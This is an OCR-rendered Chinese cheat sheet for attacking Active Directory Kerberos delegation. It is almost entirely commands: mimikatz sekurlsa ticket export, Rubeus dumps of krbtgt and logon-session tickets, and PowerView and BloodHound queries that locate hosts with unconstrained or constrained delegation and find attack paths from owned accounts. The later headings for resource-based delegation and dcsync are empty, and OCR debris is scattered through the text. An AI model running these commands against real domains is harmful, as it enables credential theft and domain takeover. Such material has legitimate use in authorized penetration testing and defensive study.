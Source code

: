 ## 3.非约束委派

### 获取票据



privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export-
-
Rubeus dump /service:krbtgt /nowrap-
-
Rubeus dump /luid:0xdeadbeef /nowrap-

### 查找非约束委派主机



Get-NetComputer -Unconstrained-
-
Get-DomainComputer -Unconstrained -Properties DnsHostName-
-
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c-
-
MATCH (u:User {owned:true}), (c:Computer {unconstraineddelegation:true}), p=shortestPath((u)-\[\*1..\]->(c)) RETURN p-

## 4.约束委派
### 获取票据



privilege::debug sekurlsa::tickets /export sekurlsa::tickets /-
-
Rubeus dump /service:krbtgt /nowrap-
-
Rubeus dump /luid:0xdeadbeef /nowrap-

### 查找约束委派主机



Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo-
-
MATCH (c:Computer), (t:Computer), p=((c)-\[:AllowedToDelegate\]->(t)) RETURN p-
-
MATCH (u:User {owned:true}), (c:Computer {name: "<MYTARGET.FQDN>"}), p=shortestPath((u)-\[\*1..\]->(c)) RETURN p-

## 5.基于资源的约束委派

## 6.dcsync

1-
